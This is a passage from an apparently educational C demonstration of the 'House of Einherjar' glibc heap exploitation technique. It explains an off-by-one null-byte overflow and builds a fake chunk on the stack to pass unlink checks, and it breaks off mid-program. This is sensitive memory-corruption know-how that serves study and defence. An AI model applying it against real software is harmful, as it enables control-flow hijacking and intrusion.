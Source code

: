 # house_of_einherjar.log
## source code
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

/*
   Credit to st4g3r for publishing this technique
   The House of Enherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
	printf("Welcome to House of Einherjar!\n");
	printf("Tested in Ubuntu 16.04 64bit.\n");
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	printf("\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	printf("a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    printf("(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    printf("Our fake chunk at %p looks like:\n", fake_chunk);
    printf("prev_size (not used): %#lx\n", fake_chunk[0]);
    printf("size: %#lx\n", fake_chunk[1]);
    printf("fwd: %#lx\n", fake_chunk[2]);
```